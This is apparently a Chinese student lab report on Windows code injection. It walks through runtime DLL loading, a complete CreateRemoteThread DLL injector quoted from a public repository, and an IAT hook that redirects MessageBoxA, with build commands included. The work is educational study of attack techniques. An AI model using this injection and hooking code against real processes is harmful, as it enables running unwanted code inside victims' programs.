

# 代码注入

## 实验目的

+ 从代码层面进行恶意代码嵌入完成代码注入

## 实验要求

+ 查文档，研究远程线程方式注入dll的实例代码的实现原理。
+ 运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。
+ 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。

## 实验过程

### 运行时链接（详见程序注入中实验）

+ dllmain example

  ```c++
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,  // handle to DLL module
      DWORD fdwReason,     // reason for calling function
      LPVOID lpReserved )  // reserved
  {
      // Perform actions based on the reason for calling.
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
           // Initialize once for each new process.
           // Return FALSE to fail DLL load.
              break;
  
          case DLL_THREAD_ATTACH:
           // Do thread-specific initialization.
              break;
  
          case DLL_THREAD_DETACH:
           // Do thread-specific cleanup.
              break;
  
          case DLL_PROCESS_DETACH:
           // Perform any necessary cleanup.
              break;
      }
      return TRUE;  // Successful DLL_PROCESS_ATTACH.
  }
  ```

+ vs属性修改

  

+ 编译运行

  ```c
  #include<Windows.h>
  //数据类型，函数指针类型
  typedef int (WINAPI* MY_PROC)(char*);
  int main()
  {
  	HMODULE hBaselib = LoadLibrary("baselib.dll");
  	if (hBaselib == NULL)
  		return 0;
  	FARPROC func = GetProcAddress(hBaselib, "lib_function");//运行时链接
  	func("run time load");
  }
  ```

+ 实现的效果如下

  


### 程序注入

+ 程序注入的基本流程

  

+ 加载dll顺序：首先看当前路径是否有dll，如果没有则去系统目录下找dll，如果修改系统目录下要被调用的dll，则会产生不堪设想的后果，这叫dll劫持

+ 从[dll inject](https://github.com/search?q=dll+inject)找[示例代码](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)

  ```c++
  #include <stdio.h>
  #include <Windows.h>
  #include <tlhelp32.h>
  #include "fheaders.h"
  
  DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
  {
  	// Calculate the number of bytes needed for the DLL's pathname
  	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
  
  	// Get process handle passing in the process ID
  	HANDLE hProcess = OpenProcess(
  		PROCESS_QUERY_INFORMATION |
  		PROCESS_CREATE_THREAD |
  		PROCESS_VM_OPERATION |
  		PROCESS_VM_WRITE,
  		FALSE, dwProcessId);
  	if (hProcess == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
  		return(1);
  	}
  
  	// Allocate space in the remote process for the pathname
  	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
  	if (pszLibFileRemote == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
  		return(1);
  	}
  
  	// Copy the DLL's pathname to the remote process address space
  	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
  	if (n == 0)
  	{
  		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
  		return(1);
  	}
  
  	// Get the real address of LoadLibraryW in Kernel32.dll
  	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
  	if (pfnThreadRtn == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
  		return(1);
  	}
  
  	// Create a remote thread that calls LoadLibraryW(DLLPathname)
  	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
  	if (hThread == NULL)
  	{
  		wprintf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
  		return(1);
  	}
  	else
  		wprintf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));
  
  	// Wait for the remote thread to terminate
  	WaitForSingleObject(hThread, INFINITE);
  
  	// Free the remote memory that contained the DLL's pathname and close Handles
  	if (pszLibFileRemote != NULL)
  		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
  
  	if (hThread != NULL)
  		CloseHandle(hThread);
  
  	if (hProcess != NULL)
  		CloseHandle(hProcess);
  
  	return(0);
  }
  ```

+ `process32`遍历进程，使用[view process](https://docs.microsoft.com/zh-cn/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)可以获得processID，这样就实现了让受害者程序加载了一个不希望加载的程序

+ 技术串联：遍历进程，writeprocess,VirtualFreeEx几个API

+ 基本函数文档，查文档了解了关键技术

  + [OpenProcess function](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)：打开一个现有的本地进程对象。
  + [VirtualAllocEx function](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)：在指定进程的虚拟地址空间内保留，提交或更改内存区域的状态。该函数将其分配的内存初始化为零。
  + [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)：在指定的进程中将数据写入内存区域。必须写入整个区域，否则操作将失败。
  + [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)：从指定的动态链接库（DLL）检索导出的函数或变量的地址。
  + [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)：创建一个在另一个进程的虚拟地址空间中运行的线程。使用[CreateRemoteThreadEx](https://docs.microsoft.com/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethreadex)函数可以创建在另一个进程的虚拟地址空间中运行的线程，并可以选择指定扩展属性。
  + [VirtualFreeEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfreeex)：在指定进程的虚拟地址空间内释放，解除授权或释放并解除授权的内存区域


### IAT hook

+ vs中新建工程，代码如下

  ```c++
  #include<Windows.h>
  //数据类型，函数指针类型
  typedef int (WINAPI* MY_PROC)(char*);
  int main()
  {
  	MessageBoxA(0, 0, 0, 0);
  	HMODULE hBaselib = LoadLibrary("baselib.dll");
  	if (hBaselib == NULL)
  		return 0;
  	FARPROC func = GetProcAddress(hBaselib, "lib_function");
  	func("run time load");
  }
  ```

+ 设置断点，转到反汇编

  

+ 查看调用loadlibrary的地址,保存的就是baselib.dll库的地址，表的位置是固定的，但是表中的值是改变的，即库的地址是一直在动态变换的，链接时才知道具体的地址

  

+ 使用`dumpbin /headers`或者`PE Explore`对二进制文件进行解析

  

  

+ PE文件格式

  

+ [IAT hook](https://github.com/tinysec/iathook)就是结构PE文件，通过解构PE文件中指针保存的系统函数的地址，而PE文件在运行时不会检查库的地址，直接执行，则运行被劫持，被假函数劫持，IAT hook就是去篡改原本存在PE文件中系统函数的地址，使得函数调用时调用的是一个假函数，从而达到攻击者所要达到的效果

+ [IAT hook示例代码](https://github.com/tinysec/iathook/blob/master/IATHook.c)

  ```c++
  #include <windows.h>
  
  
  LONG IATHook(
  	__in_opt void* pImageBase ,
  	__in_opt char* pszImportDllName ,
  	__in char* pszRoutineName ,
  	__in void* pFakeRoutine ,
  	__out HANDLE* phHook
  );
  
  LONG UnIATHook( __in HANDLE hHook );
  
  void* GetIATHookOrign( __in HANDLE hHook );
  
  typedef int (__stdcall *LPFN_MessageBoxA)( __in_opt HWND hWnd , __in_opt char* lpText , __in_opt char* lpCaption , __in UINT uType);
  
  HANDLE g_hHook_MessageBoxA = NULL;
  //////////////////////////////////////////////////////////////////////////
  
  int __stdcall Fake_MessageBoxA( __in_opt HWND hWnd , __in_opt char* lpText , __in_opt char* lpCaption , __in UINT uType)
  {
  	LPFN_MessageBoxA fnOrigin = (LPFN_MessageBoxA)GetIATHookOrign(g_hHook_MessageBoxA);
  
  	return fnOrigin(hWnd , "hook" , lpCaption , uType);//真正执行的函数
  }
  
  int __cdecl wmain(int nArgc, WCHAR** Argv)
  {
  	do 
  	{
  		UNREFERENCED_PARAMETER(nArgc);
  		UNREFERENCED_PARAMETER(Argv);
  
  		IATHook(
  			GetModuleHandleW(NULL) ,
  			"user32.dll" , 
  			"MessageBoxA" ,
  			Fake_MessageBoxA ,//将messageboxa改为了FakeMessageBoxA函数
  			&g_hHook_MessageBoxA
  		);
  		
  		MessageBoxA(NULL , "test" , "caption" , 0);
  
  		UnIATHook( g_hHook_MessageBoxA);
  
  		MessageBoxA(NULL , "test" , "caption" , 0);
  	
  	} while (FALSE);
  	
  	return 0;
  }
  ```

+ IATHook代码具体

  

  

  

  

  

  

+ 将代码复制下来成`main.c`和`IATHook.c`,并在vs开发者工具中进行如下指令

  ```bash
  cl.exe /c main.c
  cl.exe /c IATHook.c
  link main.obj IATHook.obj user32.lib kernel32.lib /out:hook.exe
  ```

  

+ 执行`hook.exe`

  

  

+ 在vs中打开这两个.c文件，设置断点

  

+ 断点执行完之后，调用的内存的地址改变了

  

+ 再次执行跳出弹窗

  


## 实验总结

+ 下表可以轻松了解实际实现的内容以及使用方法。

| 方法                    | 32位 | 64位 | 使用的DLL                       |
| ----------------------- | ---- | ---- | ------------------------------- |
| CreateRemoteThread（）  | +    | +    | dllmain_32.dll / dllmain_64.dll |
| NtCreateThreadEx（）    | +    | +    | dllmain_32.dll / dllmain_64.dll |
| QueueUserAPC（）        | +    | +    | dllmain_32.dll / dllmain_64.dll |
| SetWindowsHookEx（）    | +    | +    | dllpoc_32.dll / dllpoc_64.dll   |
| RtlCreateUserThread（） | +    | +    | dllmain_32.dll / dllmain_64.dll |
| SetThreadContext（）    | +    | +    | dllmain_32.dll / dllmain_64.dll |
| 反射DLL                 | +    | +    | rdll_32.dll / rdll_64.dll       |

+ dll加载顺序：首先看当前路径是否有dll，如果没有则去系统目录下找dll，如果修改系统目录下要被调用的dll，则会产生不堪设想的后果，这叫dll劫持

+ 代码注入实现原理就是编写一段恶意dll注入到受害者的程序中，让受害者执行攻击者希望其执行的代码

  


## 实验参考资料

+ [loadlibrary msdn](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
+ [dllmain](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dllmain?redirectedfrom=MSDN)
+ [dllmain example](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-entry-point-function)
+ [dll inject代码示例](https://github.com/search?q=dll+inject)
+ [CreateRemoteThread function msdn](https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread?redirectedfrom=MSDN)


